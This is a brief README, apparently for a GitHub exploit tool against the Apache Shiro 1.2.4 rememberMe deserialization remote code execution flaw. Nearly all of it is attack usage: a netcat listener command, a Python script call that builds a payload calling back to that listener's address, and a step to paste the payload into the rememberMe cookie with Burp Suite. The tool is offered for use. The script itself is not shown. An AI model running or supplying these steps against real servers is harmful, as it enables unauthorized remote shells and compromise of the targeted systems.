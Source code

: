 # Apache_Shiro_1.2.4_RCE
Apache shiro &lt;= 1.2.4  rememberMe 反序列化漏洞利用工具
nc -lvnp 50009
python shiro_1.2.4.py ip:50009
burpsuite  替换 Cookie: rememberMe=
